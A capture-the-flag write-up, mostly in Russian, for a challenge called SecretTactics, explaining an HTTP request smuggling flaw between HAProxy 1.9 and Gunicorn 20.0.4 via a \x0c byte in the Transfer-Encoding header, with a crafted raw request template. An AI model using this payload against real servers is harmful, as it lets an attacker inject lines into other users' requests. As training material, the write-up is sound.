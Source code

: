 # SecretTactics

## Описание
We have found the secret community in the secret shelter and they have their secret forum. There are a lot of secret users that are sharing their secret tactics on how to win in the secret casino. Moreover, somewhere on the site is a secret admin. Find out his secret tactic and give it to us!

http://tasks.sprush.rocks:8080/

Author: @Agalas

## Краткое описание уязвимости
На данном сервисе присутствует уязвимость "HTTP request smuggling". При подстановке в заголовок Transfer-Encoding спец. символа, который не будет обработан HAProxy (например \x0c), но будет обработан Gunicorn сервером, произойдет рассинхронизация, что позволит вставить в чужой запрос свои строки.
[Полное описание](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b)

# Решение
## Исследование сервера
По заголовкам, который отправляет сервер, можно понять, что задействован HAProxy 1.9 и Gunicorn 20.0.4.
Регистрируемся и видим функционал для изменения описания профиля и имени и публикации записей. 

<img src="https://puu.sh/HraZe/13b857b626.png" width="750">

Главная задача для нахождения флага — узнать логин администратора, так как все пользователи имеют доступ к просмотру профилей, где и находится флаг.

## Подготовка эксплоита и исполнение

Собираем HTTP запрос с заголовками `Transfer-Encoding:<\x0c>chunked`, `Connection: keep-alive`; `0c` — необходимый символ для пропуска заголовка сквозь HAProxy. В конце так же необходимо завершить запрос 
```
1
A
0
```
и получаем 

```
GET /login HTTP/1.1
Host: tasks.sprush.rocks:8080
Content-Length: *
Connection: keep-alive
Transfer-Encoding:<символ \x0c>chunked


1
A
0

```
Вместо `*` нужно будет вставить сумму длины своего и "поддельного" запроса. 
